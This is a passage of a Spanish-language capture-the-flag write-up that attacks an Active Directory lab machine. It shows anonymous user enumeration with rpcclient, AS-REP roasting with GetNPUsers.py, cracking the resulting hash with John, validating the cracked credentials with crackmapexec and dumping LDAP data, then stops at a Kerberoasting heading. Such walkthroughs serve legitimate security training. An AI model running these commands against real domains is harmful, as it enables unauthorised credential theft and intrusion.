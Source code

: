 Como aqui ya tenemos un listado de usuarios validos, lanzamos un ataque asproarst.

## Vulnerability Assessment {-}

### Asproasting Attack {-}

Los ataques Asproasting se pueden manejar con la utilidad 
```bash
 GetNPUsers.py 
```


```bash
cd content
rpcclient -U "" 10.10.10.161 -N -c "enumdomusers" 
rpcclient -U "" 10.10.10.161 -N -c "enumdomusers" | grep -oP '\[.*?\]' 
rpcclient -U "" 10.10.10.161 -N -c "enumdomusers" | grep -oP '\[.*?\]' | grep "0x" -v 
rpcclient -U "" 10.10.10.161 -N -c "enumdomusers" | grep -oP '\[.*?\]' | grep "0x" -v | tr -d '[]'
rpcclient -U "" 10.10.10.161 -N -c "enumdomusers" | grep -oP '\[.*?\]' | grep "0x" -v | tr -d '[]' > users.txt
GetNPUsers.py htb.local/ -no-pass -userfile users.txt 2>/dev/null
```

Aqui vemos el TGT del usuario **svc-alfresco**. Copiamos todo el hash del usuario svc-alfresco en un fichero llamado hash
y lo crackeamos con John


### Crackeando el hash con John {-}

```bash
john -wordlists=/usr/share/wordlists/rockyou.txt hash
```

Aqui encontramos su contraseña. Ya podemos effectuar un Kerberoasting attack. Pero primero, como siempre, credenciales encontradas son 
credenciales que checkeamos con crackmapexec

```bash
crackmapexec smb 10.10.10.161 -u 'svc-alfresco' -p 's3rvice'
```

### LDAP enumeracion con ldapdomaindump {-}

Esta utilidad nos permitte recuperar en formato html las informaciones del servicio LDAP.

```bash
cd /var/www/html
ldapdomaindump -u 'htb.local/svc-alfresco' -p 's3rvice' 10.10.10.161
service apache2 start
```

y podemos mirarlo con firefox en localhost

### Kereroasting attack {-}

Los ataques Kereroasting se pueden manejar con la utilidad 
```bash
 GetUserSPNs.py 
```
